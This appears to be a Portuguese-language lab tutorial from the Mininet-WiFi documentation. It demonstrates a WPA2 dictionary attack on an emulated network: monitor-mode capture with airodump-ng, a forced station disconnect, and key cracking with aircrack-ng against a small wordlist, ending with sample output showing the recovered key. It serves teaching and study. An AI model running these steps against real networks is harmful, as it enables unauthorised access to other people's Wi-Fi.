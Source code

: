 ************
Dictionary attack
************


.. Note::
  
  **Ao longo deste documento você irá aprender como realizar o ataque de dicionário:** 

  **Requisitos:** 
  - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
  - airodump-ng
  
  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Caso algum pacote estiver faltando, instale-os**
  

Primeiro, execute uma topologia simples que provê autenticação com WPA2 através do comando abaixo:

.. code:: console

    ~/mininet-wifi$ sudo python examples/authentication.py


A topologia de rede do código `authentication.py` consiste de duas estações conectadadas a um ponto de acesso. Para realizar este experimento, vamos inicialmente criar uma interface do tipo monitor chamada `mon0` a partir da estação `sta1`.

Para criar uma interface do tipo monitor execute o comando abaixo: 

.. code:: console

    mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor


Então, utilize o **airodump-ng** para capturar beacons na interface recém-criada:

.. code:: console

    mininet-wifi> sta1 ifconfig mon0 up
    mininet-wifi> sta1 airodump-ng mon0

 
Identifique o endereço MAC da estação na coluna station. 
**Dica**: Identifique o BSSID do AP ao qual a estação está conectada. O SSID pode servir de apoio.

Então, rode novamente o **airodump-ng** com os parâmetros abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    sta1-term# airodump-ng --bssid 02:00:00:00:02:00 mon0 -w minha-captura


Em seguida, force a desconexão de **sta1**.


.. code:: console
    
    mininet-wifi> sta1 iw dev sta1-wlan0 disconnet


Agora, crie um arquivo chamado `arquivo.psk` contendo o seguinte conteúdo:

.. code:: console

    123456789a
    abcdefgh
    0011223344


Em seguida, execute o comando abaixo:

.. code:: console

    mininet-wifi> sta1 aircrack-ng -w arquivo.psk -b 02:00:00:00:02:00 minha-captura-01.cap


E voi-lá! Senha descoberta!


.. code:: console
    Aircrack-ng 1.6 

          [00:00:00] 3/3 keys tested (63.70 k/s) 

          Time left: --

                              KEY FOUND! [ 123456789a ]


          Master Key     : E0 3D DC 8E 51 FB 0A 35 A6 EE 6D DF 9B 6B 69 EB 
                           E8 C0 7B D2 50 95 63 A7 26 43 DD B2 0F 46 E6 21 

          Transient Key  : 55 6C 6D AA 5D B2 DC E6 C3 FB 38 59 C8 B4 5D B3 
                           1E 3B AB 48 81 8E 94 AB 50 94 9E 25 61 8D D4 F0 
                           B9 1E 4F 3C 9C 84 48 3D 8B 09 86 1D 98 31 23 57 
                           4B 03 8F B4 86 8F 8D A4 59 CD 30 2D 71 D7 AF 18 

      EAPOL HMAC     : C1 3D 58 9D 02 CB 03 4A FC 3D 44 96 FF 2D 5D 79
      ```
